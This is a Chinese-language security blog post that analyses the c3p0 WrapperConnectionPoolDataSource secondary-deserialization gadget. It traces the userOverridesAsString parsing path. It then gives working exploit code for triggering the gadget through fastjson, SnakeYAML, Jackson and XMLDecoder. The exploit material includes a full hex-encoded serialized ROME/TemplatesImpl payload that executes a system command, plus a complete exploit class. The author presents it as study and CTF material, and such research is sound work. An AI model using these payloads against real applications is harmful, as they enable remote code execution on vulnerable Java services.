二次反序列化学习（二）
网络安全在线讨口子
c3p0
c3p0是用于创建和管理连接，利用“池”的方式复用连接减少资源开销，和其他数据源一样，也具有连接数控制、连接可靠性测试、连接泄露控制、缓存语句等功能。
0x01 分析
com/mchange/v2/c3p0/impl/WrapperConnectionPoolDataSourceBase.java


这个类的javaBean有个userOverridesAsString。还是个抽象类。
主要判断传的值和userOverridesAsString属性值是否相等或者其中一个为nill就会执行if代码块
java/beans/VetoableChangeSupport.java#fireVetoableChange()


进行赋值。


com/mchange/v2/c3p0/WrapperConnectionPoolDataSource.java#vetoableChange()

然后获取里event的newvalue。
com/mchange/v2/c3p0/impl/C3P0ImplUtils.java#parseUserOverridesAsString()

然后就是获取到的newvalue进行截取。


注意这里的索引，所以HexAsciiSerializedMap和最后面要补一位字符。hex是2字节。
然后把截取的hex转byte数组。

然后就是进行反序列化。
由于WrapperConnectionPoolDataSource这个类是抽象类，所以我们要找一个继承这个类，然后没有setUserOverridesAsString()这个方法。这样我们调用setUserOverridesAsString时就会去找抽象类的这个方法。
com/mchange/v2/c3p0/WrapperConnectionPoolDataSource.java
这个类符合这个条件

0x02 一些触发链
我们知道fastjson、snayaml、json反序列化都是调用javaBean的set方法。所以就有一下exp
一、fastjson <=1.2.47 反序列化
1
2
3
4
5
6
7
8
9
10
11
12
13
| String exp = fileToHex("rome");
String json ="{\n" +
" \"rand1\": {\n" +
" \"@type\": \"java.lang.Class\",\n" +
" \"val\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"\n" +
" },\n" +
" \"rand2\": {\n" +
" \"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n" +
" \"userOverridesAsString\": \"HexAsciiSerializedMap2"+exp+"2\",\n" +
" }\n" +
"}";
JSON.parseObject(json);
|

占位符，随便写个1字符都行
二、snakeyaml 反序列化 （不用SafeConstructor构造）
1
2
3
4
5
6
7
8
|
String payload = "!!com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\n" +
"userOverridesAsString: HexAsciiSerializedMap@" + exp + '@';
Yaml yaml = new Yaml();
yaml.load(payload);
|
三、Jackson < 2.8.10反序列化 更加鸡肋
Jackson-databind 支持 Polymorphic Deserialization 特性（默认情况下不开启）。
1
2
3
4
5
6
7
8
9
10
| class Person {
public Object object;
}
String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ exp + ";\"}]}";
System.out.println(poc);
ObjectMapper objectMapper = new ObjectMapper();
objectMapper.enableDefaultTyping();
objectMapper.readValue(poc, Person.class);
}
|
四、XML反序列 （说实话都xml反序列化了，随便干了）
1
2
3
4
5
6
| File file = new File("calc.xml");
FileInputStream fis = new FileInputStream(file);
BufferedInputStream bis = new BufferedInputStream(fis);
XMLDecoder xmlDecoder = new XMLDecoder(bis);
xmlDecoder.readObject();
xmlDecoder.close();
|
xmlpoc
1
2
3
4
5
6
7
| <java>
<object class="com.mchange.v2.c3p0.WrapperConnectionPoolDataSource">
<void method="setUserOverridesAsString">
<string>HexAsciiSerializedMap:aced00057372002e6a617661782e6d616e6167656d656e742e42616441747472696275746556616c7565457870457863657074696f6ed4e7daab632d46400200014c000376616c7400124c6a6176612f6c616e672f4f626a6563743b787200136a6176612e6c616e672e457863657074696f6ed0fd1f3e1a3b1cc4020000787200136a6176612e6c616e672e5468726f7761626c65d5c635273977b8cb0300044c000563617573657400154c6a6176612f6c616e672f5468726f7761626c653b4c000d64657461696c4d6573736167657400124c6a6176612f6c616e672f537472696e673b5b000a737461636b547261636574001e5b4c6a6176612f6c616e672f537461636b5472616365456c656d656e743b4c001473757070726573736564457863657074696f6e737400104c6a6176612f7574696c2f4c6973743b787071007e0008707572001e5b4c6a6176612e6c616e672e537461636b5472616365456c656d656e743b02462a3c3cfd22390200007870000000017372001b6a6176612e6c616e672e537461636b5472616365456c656d656e746109c59a2636dd8502000449000a6c696e654e756d6265724c000e6465636c6172696e67436c61737371007e00054c000866696c654e616d6571007e00054c000a6d6574686f644e616d6571007e000578700000003774000c636f6d2e7365722e526f6d65740009526f6d652e6a6176617400046d61696e737200266a6176612e7574696c2e436f6c6c656374696f6e7324556e6d6f6469666961626c654c697374fc0f2531b5ec8e100200014c00046c69737471007e00077872002c6a6176612e7574696c2e436f6c6c656374696f6e7324556e6d6f6469666961626c65436f6c6c656374696f6e19420080cb5ef71e0200014c0001637400164c6a6176612f7574696c2f436f6c6c656374696f6e3b7870737200136a6176612e7574696c2e41727261794c6973747881d21d99c7619d03000149000473697a657870000000007704000000007871007e0015787372002a636f6d2e73756e2e73796e6469636174696f6e2e666565642e696d706c2e546f537472696e674265616e09f58e4a0f23ee310200024c000a5f6265616e436c6173737400114c6a6176612f6c616e672f436c6173733b4c00045f6f626a71007e000178707672001d6a617661782e786d6c2e7472616e73666f726d2e54656d706c61746573000000000000000000000078707372003a636f6d2e73756e2e6f72672e6170616368652e78616c616e2e696e7465726e616c2e78736c74632e747261782e54656d706c61746573496d706c09574fc16eacab3303000649000d5f696e64656e744e756d62657249000e5f7472616e736c6574496e6465785b000a5f62797465636f6465737400035b5b425b00065f636c6173737400125b4c6a6176612f6c616e672f436c6173733b4c00055f6e616d6571007e00054c00115f6f757470757450726f706572746965737400164c6a6176612f7574696c2f50726f706572746965733b787000000000ffffffff757200035b5b424bfd19156767db37020000787000000001757200025b42acf317f8060854e0020000787000000192cafebabe000000340019010005726f6d6531070001010040636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f72756e74696d652f41627374726163745472616e736c65740700030100083c636c696e69743e010003282956010004436f64650100116a6176612f6c616e672f52756e74696d6507000801000a67657452756e74696d6501001528294c6a6176612f6c616e672f52756e74696d653b0c000a000b0a0009000c0100126f70656e202d612063616c63756c61746f7208000e01000465786563010027284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f50726f636573733b0c001000110a000900120100063c696e69743e0c001400060a0004001501000a536f7572636546696c6501000a726f6d65312e6a6176610021000200040000000000020008000500060001000700000016000200000000000ab8000d120fb6001357b100000000000100140006000100070000001100010001000000052ab70016b10000000000010017000000020018707400046e616d657077010078;</string>
</void>
</object>
</java>
|
水平有限，列出四种触发，纯纯鸡肋。
0x03 完整exp
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
| package com.towser;
import com.alibaba.fastjson.JSON;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import org.yaml.snakeyaml.Yaml;
import java.beans.XMLDecoder;
import java.io.*;
class Person {
public Object object;
}
public class c3p0_fastjson {
public static void main(String[] args) throws Exception{
String exp = fileToHex("rome");
File file = new File("calc.xml");
FileInputStream fis = new FileInputStream(file);
BufferedInputStream bis = new BufferedInputStream(fis);
XMLDecoder xmlDecoder = new XMLDecoder(bis);
xmlDecoder.readObject();
xmlDecoder.close();
}
public static String fileToHex(String filePath) {
StringBuilder hexBuilder = new StringBuilder();
try (FileInputStream fis = new FileInputStream(filePath)) {
byte[] buffer = new byte[1024];
int bytesRead;
while ((bytesRead = fis.read(buffer)) != -1) {
String hex = bytesToHex(buffer, bytesRead);
hexBuilder.append(hex);
}
} catch (IOException e) {
e.printStackTrace();
}
return hexBuilder.toString();
}
private static String bytesToHex(byte[] bytes, int length) {
StringBuilder sb = new StringBuilder(length * 2);
for (int i = 0; i < length; i++) {
sb.append(Character.forDigit((bytes[i] >> 4) & 0xF, 16));
sb.append(Character.forDigit((bytes[i] & 0xF), 16));
}
return sb.toString();
}
}
|
Xml-poc
1
2
3
4
5
6
7
8
9
10
11
12
13
| <java>
<object class="com.mchange.v2.c3p0.WrapperConnectionPoolDataSource">
<void method="setUserOverridesAsString">
<string><java>
<object class="com.mchange.v2.c3p0.WrapperConnectionPoolDataSource">
<void method="setUserOverridesAsString">
<string>HexAsciiSerializedMap:SEROBJHEX;</string>
</void>
</object>
</java></string>
</void>
</object>
</java>
|
0x04 总结
怎么看c3p0的二次都很鸡肋。24年了，只能说ctf专项吧。
抄作业链接
https://xz.aliyun.com/t/10728
https://tttang.com/archive/1701/#toc__7
http://moonflower.fun/index.php/2022/04/18/316/
https://johnfrod.top/%E5%AE%89%E5%85%A8/xmldecoder-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/